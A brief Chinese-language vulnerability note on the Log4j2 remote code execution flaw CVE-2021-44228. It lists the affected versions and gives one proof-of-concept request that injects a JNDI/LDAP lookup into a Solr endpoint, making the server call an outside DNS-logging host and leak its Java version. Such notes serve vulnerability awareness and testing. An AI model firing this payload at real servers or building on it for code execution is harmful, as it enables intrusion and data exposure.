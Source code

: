 Log4j 漏洞

Apache Log4j2 是一款优秀的 Java 日志框架，大量的业务框架都使用了该组件。由于 Apache Log4j2 某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。

CVE 编号：CVE-2021-44228

受影响版本：log4j2 2.0-beta9~2.14.1

```
http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.sg.dnslog.cn}
```

